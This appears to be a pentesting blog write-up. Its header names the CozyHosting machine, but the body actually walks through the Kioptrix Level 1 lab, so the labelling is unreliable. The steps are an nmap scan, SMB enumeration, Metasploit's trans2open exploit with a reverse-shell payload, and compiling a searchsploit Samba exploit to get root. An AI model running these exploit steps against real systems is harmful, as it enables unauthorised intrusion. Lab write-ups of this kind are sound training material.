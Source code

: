 ```yaml
---
title: CozyHosting Writeup
date: 2023-09-15
categories: htb,pentesting
tags: htb,pentesting     # TAG names should always be lowercase
---
```

## Machine Info
* Difficulty: Easy
* Goal: Gain root access

## Network Scanning

### Netdiscover
We run netdiscover to get the IP address of kioptrix level 1 through the host-only adapter interface (eth1).

```bash
netdiscover -i eth1
```

![netdiscover](/assets/img/posts/kioptrix1/1.png)

### Nmap
After we got the IP address of the target machine, we run nmap to scan all ports and enable OS detection, version detection, script scanning, and traceroute to discover the open ports and services that are running on the target.

```bash
nmap -p- -A 192.168.56.110
```

![nmap](/assets/img/posts/kioptrix1/2.1.png)
![nmap](/assets/img/posts/kioptrix1/2.2.png)

## Enumeration
### Finding smb version
As a result of nmap scan, we have a bunch of open ports and services. Let's start to enumerate smb service on port 139. We run metasploit to discover the version of smb. In the metasploit console, we search for smb to get the auxiliary that will help us to discover the version of smb. Then we use "/auxiliary/scanner/smb/smb_version" (#61) and set RHOSTS to the target IP address and run.

```bash
msfconsole
search smb
use 61
options
set RHOSTS 192.168.56.110
run
```
![smb_version](/assets/img/posts/kioptrix1/4.png)
![smb_version](/assets/img/posts/kioptrix1/5.png)

## Exploitation

### Method 1: trans2open Overflow (Metasploit)
After we got the version of smb that is running on the target machine which is (Samba 2.2.1a), we use searchsploit to search for any exploit offline and we found some exploits that we can use also you can search for exploits online using your browser.

```bash
searchsploit Samba 2.2.1a
```

![searchsploit_trans2open](/assets/img/posts/kioptrix1/6.1.png)

From the results of searchsploit, we decided to select “trans2open Overflow” that has an existed module in metasploit. Therefore, we turn on the metasploit console and search for trans2open then we select "exploit/linux/samba/trans2open" (#1) since our target machine is linux. After that, we set RHOSTS to the IP address of the target machine then we run the exploit. But as depicted in the second image below, the exploit did not work and all the opened sessions are closed.

```bash
msfconsole
search trans2open
use 1
options
set RHOSTS 192.168.56.110
run
```

![trans2open](/assets/img/posts/kioptrix1/7.png)
![trans2open](/assets/img/posts/kioptrix1/8.png)

Therefore, we checked the payload and we decided that we are going to change the previous staged payload which is "linux/x86/meterpreter/reverse_tcp" to un-staged payload which is "linux/x86/shell_reverse_tcp". And finally, the exploit worked successfully and we gained root access to the target machine.

```bash
options
set payload linux/x86/shell_reverse_tcp
run
id
```

![root_access](/assets/img/posts/kioptrix1/9.png)

### Method 2: Remote Code Execution
We try to use another exploit to gain access to the target machine, but this time the exploit is manual. We run searchsploit as the previous time and select "Remote Code Execution" exploit to download it on our kali linux machine using mirror option "-m".

```bash
searchsploit Samba 2.2.1a
searchsploit -m multiple/remote/10.c
```

![searchsploit_RCE](/assets/img/posts/kioptrix1/10.png)

After we downloaded the exploit, we compile it using gcc and run it against our target machine. And we got the root shell on the target machine.

```bash
gcc 10.c -o 10
./10 -b 0 -v 192.168.56.110
whoami
uname -a
```

![searchsploit_RCE](/assets/img/posts/kioptrix1/11.png)
